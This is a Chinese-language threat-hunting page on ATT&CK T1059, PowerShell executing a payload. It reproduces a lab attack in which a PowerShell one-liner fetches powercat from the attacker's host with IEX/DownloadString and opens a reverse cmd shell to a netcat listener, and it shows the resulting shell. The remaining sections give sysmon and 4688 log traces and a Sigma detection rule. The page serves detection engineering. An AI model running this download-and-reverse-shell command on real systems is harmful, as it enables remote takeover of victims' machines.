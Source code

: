 # T1059-win-基于白名单Powershell.exe执行Payload

## 来自ATT&CK的描述

命令行界面是与计算机系统交互的一种方式，并且是很多操作系统平台的常见特性。例如，Windows系统上的命令行界面cmd可用于执行许多任务，包括执行其他软件。命令行界面可在本地交互或者通过远程桌面应用、反向shell会话等远程交互。执行的命令以命令行界面进程的当前权限级别运行，除非该命令需要调用进程来更改权限上下文（例如，定时任务）。

攻击者可能会使用命令行界面与系统交互并在操作过程中执行其他软件。

## 测试案例

您可以使用PowerShell.exe从另一个工具（例如Cmd.exe）的命令行启动PowerShell会话，也可以在PowerShell命令行启动新会话。从此处阅读Microsoft Windows官方网站上的更多信息。

补充说明：在高版本powershell（V5以上含V5）中，可以通过配置策略，对进程命令行参数进行记录，具体策略可参考[powershell事件](https://github.com/12306Bro/Hunting-guide/blob/master/Powershell-id.md)。同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

windows 安全日志/SYSMON日志（需要自行安装）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：win7（sysmon）

### 攻击分析

#### 生成payload

下载我们本次测试中要用到的powercat，下载地址：<https://github.com/besimorhino/powercat>

#### 开启小型http服务

powercat目录下执行以下命令：

```bash
root@12306Br0:~# python2 -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```

#### 执行监听

```bash
nc -lvp 1234
```

#### 靶机执行payload

```cmd
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.126.146/powercat.ps1');powercat -c 192.168.126.146 -p 1234 -e cmd"
```

#### 反弹shell

```bash
root@12306Br0:/# nc -lvp 1234
listening on [any] 1234 ...
192.168.126.149: inverse host lookup failed: Unknown host
connect to [192.168.126.146] from (UNKNOWN) [192.168.126.149] 49339
Microsoft Windows [�汾 6.1.7601]
��Ȩ���� (c) 2009 Microsoft Corporation����������Ȩ����
```

## 测试留痕

```log
#sysmon日志
EventID: 1
Image: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
FileVersion: 6.1.7600.16385 (win7_rtm.090713-1255)
Description: Windows PowerShell
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName: PowerShell.EXE
CommandLine: powershell  -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.126.146/powercat.ps1');powercat -c 192.168.126.146 -p 1234 -e cmd"

#win7安全日志
EventID: 4688
进程信息:
新进程 ID: 0x330
新进程名: C:\Windows\System32\cmd.exe
令牌提升类型: TokenElevationTypeLimited (3)

EventID: 4688
进程信息:
新进程 ID: 0xa44
新进程名: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe

#Powershell V5(含V5以上)配置审核策略，可以达到记录命令行参数的效果。通过命令行参数进行监控分析。当然也可以采用配置windows server 2008(不含2008)以上审核进程创建策略，同样也可以对命令行参数进行记录，最后达到监控效果。
```

## 检测规则/思路

### sigma规则

```yml
title: PowerShell通过url进行下载
status: experimental
description: 检测在命令行字符串中包含下载命令的Powershell进程
tags:
    - attack.t1086
    - attack.execution
logsource:
    category: process_creation
    product: windows
detection:
    selection:
        Image: '*\powershell.exe'
        CommandLine:
            - '*new-object system.net.webclient).downloadstring(*'
            - '*new-object system.net.webclient).downloadfile(*'
            - '*new-object net.webclient).downloadstring(*'
            - '*new-object net.webclient).downloadfile(*'
    condition: selection
fields:
    - CommandLine
    - ParentCommandLine
falsepositives:
    - unknown
level: medium

```

### 建议

可根据进程创建事件4688/1（进程名称、命令行）进行监控。本监控方法需要自行安装配置审核策略/sysmon。

## 相关TIP

[[T1059-001-win-检测PowerShell2.0版本执行]]
[[T1059-001-win-检测PowerShell下载文件]]
[[T1059-004-linux-脚本]]
[[T1059-win-基于Certutil.exe执行Payload(白名单)]]
[[T1059-win-基于Ftp.exe执行Payload(白名单)]]
[[T1059-win-进程生成CMD]]

## 参考推荐

MITRE-ATT&CK-T1059-001

<https://attack.mitre.org/techniques/T1059/001/>
